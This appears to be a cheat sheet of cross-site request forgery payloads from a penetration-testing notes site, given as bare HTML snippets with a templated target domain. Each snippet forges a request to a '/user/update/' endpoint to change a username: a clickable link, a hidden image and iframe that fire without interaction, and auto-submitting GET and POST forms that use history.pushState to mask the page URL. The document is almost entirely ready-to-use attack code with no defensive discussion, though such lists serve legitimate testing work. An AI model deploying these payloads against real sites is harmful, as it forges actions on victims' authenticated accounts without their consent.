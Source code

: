 ## Payloads

### HTML GET - User Interaction

```html
<a href="http://{{< param "m.RDOMAIN" >}}/user/update/?username=0xffsec">Click Here!</a>
```

### HTML GET - No Interaction

```html
<img src="http://{{< param "m.RDOMAIN" >}}/user/update/?username=0xffsec">
```

```html
<iframe src="http://{{< param "m.RDOMAIN" >}}/user/update/?username=0xffsec" style="display:none;"></iframe>
```

### FORM GET - No Interaction

```html
<script>history.pushState('', '', '/')</script>
<form id="csrf_form" method="GET" action="http://{{< param "m.RDOMAIN" >}}/user/update/">
    <input type="hidden" name="username" value="0xffsec" />
    <input type="submit" value="Submit" />
</form>
<script>
    document.getElementById("csrf_form").submit();
</script>
```

### FORM POST - User Interaction

```html
<form action="http://{{< param "m.RDOMAIN" >}}/user/update/" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="0xffsec" />
    <input type="submit" value="Submit" />
</form>
```

### FORM POST - No Interaction

```html
<script>history.pushState('', '', '/')</script>
<form id="csrf_form" action="http://{{< param "m.RDOMAIN" >}}/user/update/" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="0xffsec" />
</form>
<script>
    document.getElementById("csrf_form").submit();
</script>
```
